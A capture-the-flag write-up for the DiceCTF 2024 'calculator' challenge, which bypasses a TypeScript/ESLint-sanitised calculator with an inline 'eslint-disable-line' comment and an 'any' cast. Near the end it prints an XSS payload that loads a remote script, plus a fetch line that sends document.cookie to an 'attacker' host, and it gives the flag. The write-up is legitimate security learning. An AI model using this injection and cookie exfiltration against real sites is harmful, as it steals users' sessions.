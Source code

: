 # DiceCTF 2024 calculator writeup
beep boop

Files: website 
Links: adminbot

Solves: 59

## Solution
This challenge is a spin on the classic javascript calculator challenge. What makes this one different is that you enter typescript code that is sanitized and run through eslint. The challenge author set a LOT of restrictions for what we can enter:

```javascript
rules: {
    '@typescript-eslint/await-thenable': 'error',
    '@typescript-eslint/ban-ts-comment': 'error',
    '@typescript-eslint/ban-tslint-comment': 'error',
    '@typescript-eslint/ban-types': 'error',
    'no-array-constructor': 'error',
    '@typescript-eslint/no-array-constructor': 'error',
    '@typescript-eslint/no-array-delete': 'error',
    '@typescript-eslint/no-base-to-string': 'error',
    '@typescript-eslint/no-confusing-void-expression': 'error',
    '@typescript-eslint/no-duplicate-enum-values': 'error',
    '@typescript-eslint/no-duplicate-type-constituents':
        'error',
    '@typescript-eslint/no-dynamic-delete': 'error',
    '@typescript-eslint/no-explicit-any': 'error',
    '@typescript-eslint/no-extra-non-null-assertion': 'error',
    '@typescript-eslint/no-extraneous-class': 'error',
    '@typescript-eslint/no-floating-promises': 'error',
    '@typescript-eslint/no-for-in-array': 'error',
    'no-implied-eval': 'error',
    '@typescript-eslint/no-implied-eval': 'error',
    '@typescript-eslint/no-invalid-void-type': 'error',
    'no-loss-of-precision': 'off',
    '@typescript-eslint/no-loss-of-precision': 'error',
    '@typescript-eslint/no-meaningless-void-operator': 'error',
    '@typescript-eslint/no-misused-new': 'error',
    '@typescript-eslint/no-misused-promises': 'error',
    '@typescript-eslint/no-mixed-enums': 'error',
    '@typescript-eslint/no-namespace': 'error',
    '@typescript-eslint/no-non-null-asserted-nullish-coalescing':
        'error',
    '@typescript-eslint/no-non-null-asserted-optional-chain':
        'error',
    '@typescript-eslint/no-non-null-assertion': 'error',
    '@typescript-eslint/no-redundant-type-constituents':
        'error',
    '@typescript-eslint/no-this-alias': 'error',
    'no-throw-literal': 'error',
    '@typescript-eslint/no-throw-literal': 'error',
    '@typescript-eslint/no-unnecessary-boolean-literal-compare':
        'error',
    '@typescript-eslint/no-unnecessary-condition': 'error',
    '@typescript-eslint/no-unnecessary-type-arguments': 'error',
    '@typescript-eslint/no-unnecessary-type-assertion': 'error',
    '@typescript-eslint/no-unnecessary-type-constraint':
        'error',
    '@typescript-eslint/no-unsafe-argument': 'error',
    '@typescript-eslint/no-unsafe-assignment': 'error',
    '@typescript-eslint/no-unsafe-call': 'error',
    '@typescript-eslint/no-unsafe-declaration-merging': 'error',
    '@typescript-eslint/no-unsafe-enum-comparison': 'error',
    '@typescript-eslint/no-unsafe-member-access': 'error',
    '@typescript-eslint/no-unsafe-return': 'error',
    'no-unused-vars': 'error',
    '@typescript-eslint/no-unused-vars': 'error',
    'no-useless-constructor': 'error',
    '@typescript-eslint/no-useless-constructor': 'error',
    '@typescript-eslint/no-useless-template-literals': 'error',
    '@typescript-eslint/no-var-requires': 'error',
    '@typescript-eslint/prefer-as-const': 'error',
    '@typescript-eslint/prefer-includes': 'error',
    '@typescript-eslint/prefer-literal-enum-member': 'error',
    'prefer-promise-reject-errors': 'error',
    '@typescript-eslint/prefer-promise-reject-errors': 'error',
    '@typescript-eslint/prefer-reduce-type-parameter': 'error',
    '@typescript-eslint/prefer-return-this-type': 'error',
    '@typescript-eslint/prefer-ts-expect-error': 'error',
    'require-await': 'error',
    '@typescript-eslint/require-await': 'error',
    '@typescript-eslint/restrict-plus-operands': 'error',
    '@typescript-eslint/restrict-template-expressions': 'error',
    '@typescript-eslint/triple-slash-reference': 'error',
    '@typescript-eslint/unbound-method': 'error',
    '@typescript-eslint/unified-signatures': 'error',
    '@typescript-eslint/consistent-type-assertions': [
        'error',
        { assertionStyle: 'never' },
    ],
}
```

Our query also faces a `75` character limit:
```javascript
if (query.length > 75) {
    return 'equation is too long'
}
```

And it is made sure that the return type is compatible with a number:
```javascript
const value: number = result.value
return `result: ${value.toString()}`
```

Ultimately with this challenge we need to find a way to steal the flag that is stored in the admin bots cookies.  

After some googling it turns out that ESLint rules can be disabled by writing specific comments in the code as seen [here](https://eslint.org/docs/latest/use/configure/rules#disabling-rules).  

Using the comment to disable the linter rules, we can get away with a lot more and then use some typescript magic to set a string to type any, which is able to be interpreted as a number later on. To deal with the character limit, we host our true payload elsewhere and use script src to get it.

Payload:
```typescript
<any>'<script src="shortened link to payload .js"></script>'/*eslint-disable-line*/
```
Contents of script that we fetch:
```javascript
fetch("https://attacker/?"+document.cookie)
```

Combining these we are able to send the payload to the admin bot and get the flag:
dice{society_if_typescript_were_sound}
